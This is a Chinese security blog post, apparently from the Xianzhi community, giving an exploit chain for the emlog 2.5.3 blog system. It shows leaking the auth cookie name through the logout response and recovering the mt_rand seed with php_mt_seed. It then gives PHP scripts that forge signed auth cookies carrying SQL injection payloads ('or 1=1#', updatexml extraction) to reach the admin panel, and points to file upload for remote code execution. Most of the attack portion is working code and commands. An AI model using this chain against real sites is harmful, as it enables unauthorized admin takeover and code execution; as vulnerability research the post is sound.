# emlog签名爆破利用-先知社区

> **来源**: https://xz.aliyun.com/news/17000  
> **文章ID**: 17000

---

# 环境搭建

```
源码连接https://www.emlog.net/docs/changelog/
```



这边下载的是2.5.3版本的源码

# 源码审计



在install.php处，有一个生成cookie的方法


```
function getRandStr($length = 32)
{
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    $chars_length = strlen($chars);//62
    for ($i = 0; $i < $length; $i++) {//32
        $randStr .= substr($chars, mt_rand(0, $chars_length - 1), 1);
    }
    return $randStr;
}
```

简化这个函数发现就是这个样子的，

意思就是循环遍历32次，每一次都利用mt\_rand在0~61之间，截取chars的一个字符

然后再拼接到randStr变量，最后返回。

然后再拼接一个前缀EM\_AUTHCOOKIE\_和一个分号

传递到AUTH\_COOKIE\_NAME

怎么获取这段明文信息呢？

## 方法一：



登录的时候也会返回，但前提是我们知道账号和密码，要么就是能重写在前台注册一个新的账号登陆

但是注册账号默认是被封禁的，除非被管理员开启。

## 方法二：

在用户登出的时候会返回这串变量



# 利用：

```
curl -i http://127.0.0.1/admin/account.php?action=logout

HTTP/1.1 302 Found
Date: Sat, 22 Feb 2025 12:03:06 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: EM_AUTHCOOKIE_RbAWvNJZ5YMeZLGMr56lfjValO3yqYlr=%20; expires=Fri, 23 Feb 2024 12:03:06 GMT; Max-Age=0; path=/
Location: ../
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

此时就会返回用户的一串AUTH\_COOKIE\_NAME

```
RbAWvNJZ5YMeZLGMr56lfjValO3yqYlr=
```

这里我很奇怪这个等号和%20(空格)在getRandStr方法中并不会产生，那又是怎么来的呢？

个人猜测应该是系统调用setcookie方法的时候生成的，所以我们手动帮他给去掉

<https://github.com/openwall/php_mt_seed>

看到这篇文章



这里把他这个生成数列的php脚本抄下来，修改一下allowable\_characters(即密文)和pass(即cookie)

```
<?php
$allowable_characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
$len = strlen($allowable_characters) - 1;
$pass = "RbAWvNJZ5YMeZLGMr56lfjValO3yqYlr";
for ($i = 0; $i < strlen($pass); $i++) {
    $number = strpos($allowable_characters, $pass[$i]);
    echo "$number $number 0 $len  ";
}
echo "
";
?>
```

然后他就会生成这段

```
43 43 0 61 1 1 0 61 26 26 0 61 48 48 0 61 21 21 0 61 39 39 0 61 35 35 0 61 51 51 0 61 57 57 0 61 50 50 0 61 38 38 0 61 4 4 0 61 51 51 0 61 37 37 0 61 32 32 0 61 38 38 0 61 17 17 0 61 57 57 0 61 58 58 0 61 11 11 0 61 5 5 0 61 9 9 0 61 47 47 0 61 0 0 0 61 11 11 0 61 40 40 0 61 55 55 0 61 24 24 0 61 16 16 0 61 50 50 0 61 11 11 0 61 17 17 0 61 
```



但是我发现利用这串数列根本无法将种子爆破出来，然后我继续往下看这篇文章



文章里的

```
HW9UPrqKWC
```

长度为10，对应覆盖了10组4个0的前缀，

那么我们的

```
RbAWvNJZ5YMeZLGMr56lfjValO3yqYlr
```

为32就要在前面加32组4个0的前缀

用python生成

```
str1='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
str2='RbAWvNJZ5YMeZLGMr56lfjValO3yqYlr'
length = len(str2)
res=''
for i in range(len(str2)):
    for j in range(len(str1)):
        if str2[i] == str1[j]:
            res+=str(j)+' '+str(j)+' '+'0'+' '+str(len(str1)-1)+' '
            break
print(res)
pre=''
for i in range(32):
    pre+='0'+' '+'0'+' '+'0'+' '+'0'+'  '

# print(res)
print(pre+res)
```

```
0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  0 0 0 0  43 43 0 61 1 1 0 61 26 26 0 61 48 48 0 61 21 21 0 61 39 39 0 61 35 35 0 61 51 51 0 61 57 57 0 61 50 50 0 61 38 38 0 61 4 4 0 61 51 51 0 61 37 37 0 61 32 32 0 61 38 38 0 61 17 17 0 61 57 57 0 61 58 58 0 61 11 11 0 61 5 5 0 61 9 9 0 61 47 47 0 61 0 0 0 61 11 11 0 61 40 40 0 61 55 55 0 61 24 24 0 61 16 16 0 61 50 50 0 61 11 11 0 61 17 17 0 61 
```



```
2430606281
```

成功将种子生成

# 绕过鉴权

```
public static function validateAuthCookie($cookie = '')
    {
        if (empty($cookie)) {
            return false;
        }
//检查cookie值是否为空，为空则返回
        $cookie_elements = explode('|', $cookie);
        if (count($cookie_elements) !== 3) {
            return false;
        }
//检测cookie是否利用|符号分割之后能为3部分

        list($username, $expiration, $hmac) = $cookie_elements;
//分成三部分赋值
        if (!empty($expiration) && $expiration < time()) {
            return false;
        }
//$expiration变量要为null或者0，empty($expiration)才能为真，取反后这样才能不进入if条件判断返回false
        $key = self::emHash($username . '|' . $expiration);
        $hash = hash_hmac('md5', $username . '|' . $expiration, $key);
//生成$hmac的两个方法hash_hmac和self::emHash
        if ($hmac !== $hash) {
            return false;
        }

        $user = self::getUserDataByLogin($username);
        if (!$user) {
            return false;
        }
        return $user;
    }
```

接下来我们看看getUserDataByLogin方法

```
    public static function getUserDataByLogin($account)
    {
        $DB = Database::getInstance();
        if (empty($account)) {
            return false;
        }
        $ret = $DB->once_fetch_array("SELECT * FROM " . DB_PREFIX . "user WHERE username = '$account' AND state = 0");
        if (!$ret) {
            $ret = $DB->once_fetch_array("SELECT * FROM " . DB_PREFIX . "user WHERE email = '$account'  AND state = 0");
            if (!$ret) {
                return false;
            }
        }
        $userData['nickname'] = htmlspecialchars($ret['nickname']);
        $userData['username'] = htmlspecialchars($ret['username']);
        $userData['password'] = $ret['password'];
        $userData['uid'] = $ret['uid'];
        $userData['role'] = $ret['role'];
        $userData['photo'] = $ret['photo'];
        $userData['email'] = $ret['email'];
        $userData['description'] = $ret['description'];
        $userData['ip'] = $ret['ip'];
        $userData['credits'] = (int)$ret['credits'];
        $userData['create_time'] = $ret['create_time'];
        $userData['update_time'] = $ret['update_time'];
        return $userData;
    }
```

这里的拼接，直接能够进行sql注入。

构造cookie脚本

```
<?php
$seed = 2430606281;
mt_srand($seed);
$rand_string = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()";

$retStr = '';
for($i = 0; $i < 32; $i++) {
    $retStr .= substr($rand_string, mt_rand(0, strlen($rand_string) - 1), 1);
}

$user_agent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0';
$auth_key = $retStr.$user_agent;
echo 'AUTH_KEY:' . $auth_key . "
";

$username = "x' and updatexml(1,concat(0x7e,(select(substr(username,1,16))from(emlog_user)),0x7e),1) #";
$expiration = 0;
$data = $username . '|' . $expiration;
$key = hash_hmac('md5', $data, $auth_key);
$hash = hash_hmac('md5', $username . '|' .  $expiration, $key);

echo "
EM_AUTHCOOKIE_RbAWvNJZ5YMeZLGMr56lfjValO3yqYlr=".$username."|".$expiration."|".$hash;
```

这里的558fb80a37ff0f45d5abbc907683fc02其实是你博客安装的时候得到的ua头md5加密之后的值


```
POST /install.php?action=install HTTP/1.1
Host: 127.0.0.1:60080
Content-Length: 244
Cache-Control: max-age=0
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:60080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:60080/install.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

hostname=127.0.0.1%3A3306&dbuser=root&dbpasswd=****************&dbname=emlog&dbprefix=emlog_&username=********************************&password=********************************&repassword=********************************&email=****************
```

这里的

```
558fb80a37ff0f45d5abbc907683fc02
即为
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
md5加密之后的值
```

如果你再windows上的谷歌浏览器搭建一个



```
6dbb10952a38c11d19e2648023d5055b
即为
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
md5加密之后的值
```

直接构造永真式

```
<?php
function generateAuthCookie($user_login, $expiration)
{
    $key = emHash($user_login . '|' . $expiration);
    $hash = hash_hmac('md5', $user_login . '|' . $expiration, $key);

    return $user_login . '|' . $expiration . '|' . $hash;
}

function emHash($data)
{
    return hash_hmac('md5', $data, "yxuzKkM2QC8L8WLPFvawb(mI4R&NglOA558fb80a37ff0f45d5abbc907683fc02");
}
var_dump(generateAuthCookie("' or 1=1#", 0));
```



构造号之后，建议加上Referer头，不知道为啥我不加好像进不去

进入后台，上传脚本的方法太多了，网上也有很多资料，

```
https://blog.csdn.net/W13680336969/article/details/137267677
https://github.com/yangliukk/emlog/tree/main
```







上传rce

# 其他版本

翻阅了前面几个版本发现都是存在这样的问题的

但是重点的话就是要怎么利用AUTH\_KEY和AUTH\_COOKIE\_NAME

特别是HTTP\_USER\_AGENT这个md5值。
